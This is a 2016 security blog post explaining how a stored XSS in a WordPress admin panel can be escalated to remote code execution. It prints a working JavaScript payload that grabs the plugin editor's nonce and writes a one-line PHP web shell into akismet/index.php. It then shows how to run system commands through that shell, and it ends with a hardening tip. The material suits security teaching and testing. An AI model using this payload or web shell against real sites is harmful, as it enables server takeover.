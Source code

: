 ```yaml
---
title: "XSS to RCE – using WordPress as an example"
date: 2016-07-17
categories:
- xss
- rce
- wordpress
tags:
- webshell
- wordpress

thumbnailImagePosition: left
thumbnailImage: /img/xss-to-rce-using-wordpress-as-an-example/1.png
---
```


A real world example of how an XSS in the administration portal of a WordPress instance can lead to an RCE by uploading a webshell using the XSS.

<!--more-->

## Introduction

Cross Site Scripting (XSS) is a type of client side vulnerability that arises when an application accepts user supplied input and makes it a part of the page without sanitizing it for malicious content. An attacker can supply JavaScript as input that eventually becomes a part of the page and executes in the browser of the user viewing the page. You can read more about the different types of [XSS vulnerabilities at the OWASP wiki](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)).

Most vulnerability assessments report XSS issues with the impact limited to stealing session cookies and hijacking accounts. In reality, a well executed XSS attack can cause a lot more harm than merely overtaking an account. Of course it depends on what other vulnerabilities are present in the application in the post login pages. Also, depending on the privileges of the user whose session was hijacked, added functionality may be available ready for abuse.

## Other interesting cases

There have been several well documented cases of a XSS leading to larger more impactful attacks. Here are some examples

1. XSS worm by Samy: - https://samy.pl/popular/tech.html
2. Apache network compromise starting with a XSS in Atlassian JIRA: - https://blogs.apache.org/infra/entry/apache_org_04_09_2010
3. XSS to RCE in Node via process.open() - https://oreoshake.github.io/xss/rce/bugbounty/2015/09/08/xss-to-rce.html

## The attack steps

In a standard XSS attack, a penetration tester would usually take the following steps

1. Find a XSS vulnerability
2. Host a collecting server to capture session cookies that will be delivered by your XSS payload
3. Send the URL with the XSS payload to a user via email (Reflected XSS) OR Store the XSS payload and wait for a user (or social engineer them to visit if you lack patience) to visit the vulnerable page
4. Replay the session cookies to the application and gain access to the victim’s account.
5. Explore the application for data/other vulnerabilities.

In the event that an application has functionality that allows a user to upload executable code (php pages for example) or edit existing server side code, then you can choose to attack that functionality directly with a XSS payload. [Akash Mahajan](https://twitter.com/makash), my friend and partner at [Appsecco](https://appsecco.com/), pointed out a tweet by [@brutelogic](https://twitter.com/brutelogic/status/752111662254227456) which, in my opinion, is a fantastic JavaScript XSS payload to use the plugin-editor of WordPress to update an existing PHP page with shellcode. 

So I setup a local WP with a [plugin that was vulnerable to XSS](https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html) and used the following JS payload as mentioned in the tweet.

```javascript
x=new XMLHttpRequest()
p='/wp-admin/plugin-editor.php?'
f='file=akismet/index.php'
x.open('GET',p+f,0)
x.send()
$='_wpnonce='+/ce" value="([^"]*?)"/.exec(x.responseText)[1]+'&newcontent=<?=`$_GET[brute]`;&action=update&'+f
x.open('POST',p+f,1)
x.setRequestHeader('Content-Type','application/x-www-form-urlencoded')
x.send($)
```

Here’s what the payload does

1. Creates a new `XMLHttpRequest()` object `x`
2. `p` and `f` hold the complete URL to load
3The file that will be updated is `akismet/index.php`
4. `x.open('GET',p+f,0)` and `x.send()` are used to specify the type of request and to send the actual request respectively
5. The `$` contains the POST data that will be sent
6. For every POST request in WordPress you need the `_wpnonce` token. The `/ce" value="([^"]*?)"/.exec(x.responseText)[1]` extracts the csrf token from the previous response using a regular expression
7. The php shell code is ``<?=`$_GET[brute]`;``
8. A new POST request is created and sent to the server along with appropriate form submit headers.

If an admin navigates to `/wp-admin/plugin-editor.php?file=akismet/index.php`, this is what they will see

![](/img/xss-to-rce-using-wordpress-as-an-example/1.png)

To access the shell, navigate to `/wp-content/plugins/akismet/index.php?brute=ls -a`. You can now interact and execute operating system commands with the WordPress server using the brute parameter. To make the output more readable simply use the view-source option of the page.

![](/img/xss-to-rce-using-wordpress-as-an-example/2.png)

This attack will obviously not work if the plugin editor is disabled which can be done by placing `define('DISALLOW_FILE_EDIT', true);` in the `wp-config.php` file. You can read more WordPress hardening tips at https://codex.wordpress.org/Hardening_WordPress (shouts to [@anantshri](https://twitter.com/anantshri)).

Happy Hacking!

---